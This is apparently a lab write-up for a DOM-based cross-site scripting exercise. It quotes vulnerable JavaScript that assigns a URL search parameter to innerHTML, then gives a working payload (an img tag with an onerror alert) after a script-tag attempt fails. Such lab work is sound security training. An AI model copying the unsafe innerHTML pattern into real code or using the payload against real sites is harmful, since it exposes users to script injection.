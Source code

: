 # Lab: DOM XSS in innerHTML sink using source location.search

 >This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

>To solve this lab, perform a cross-site scripting attack that calls the alert function. 

Vulnerable area: Blog search functionality

Found this js code:

`function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}`

Because `.innerHTML` was used, we can inject our own html

I first tried the straightforward payload, but it didn't work:

`<script>alert('haha get pwned')</script>`

Was able to perform DOM XSS with the following payload:

`<img src='x' onerror='alert(1)'`

Lab solved!